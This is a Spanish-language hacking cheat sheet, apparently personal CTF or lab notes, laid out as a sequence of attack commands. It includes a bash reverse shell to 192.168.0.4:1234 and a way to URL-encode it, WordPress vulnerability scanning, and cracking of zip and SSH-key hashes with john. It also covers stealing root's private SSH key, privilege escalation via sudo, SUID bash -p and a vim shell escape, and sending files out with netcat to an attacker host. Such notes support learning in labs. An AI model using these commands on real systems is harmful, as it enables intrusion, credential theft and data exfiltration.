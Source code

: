 **Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:**
\```
 “wpscan –url http://ip”
\```

Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress

Opciones para crear una shell inversa:
https://www.revshells.com/
 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 En caso de querer codificarla en url, podemos realizar el siguiente comando:
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"
Sacar hashes de ficheros zip:
zip2john muyconfidencial.zip > hash_muyconfidencial
Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos stty rows x columns y
Página donde ver como escalar privilegios con los binarios (sudo -l )
https://gtfobins.github.io/gtfobins/aws/#sudo
Visualizar todos los ficheros ordenados por directorios para ver los permisos ls -la /* | less
Página donde se ven diferentes tipos de ataque: https://deephacking.tech/
Ejemplo de uso para escalar priv con rutas absolutas:sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.
Escalar priv por medio de SUID - Dar privilegios p.j /bin/bash u+s o (4777) ejecutar el comando del ejemplo bash -p (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). Ejemplo de Búsqueda de Archivos SUID find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) find / -perm -4000 2>/dev/null (para buscar directorios). Otro ejemplo pero con un editor como puede ser vim: vim -c una vez dentro ejecutar: ':!/bin/sh'
Se puede buscar info en https://gtfobins.github.io/
En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en  /root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash. -> ssh2john ficherodondeguardamoslakey > salidaficherohasheado            john ficherohasheado –wordlist /usr/share/wordlist/rockyou   Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada sudo ssh root@ip -i ficheroconlakey
Enviar ficheros por netcat (Victima) nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip
Hydra Brute Force Login Attacks
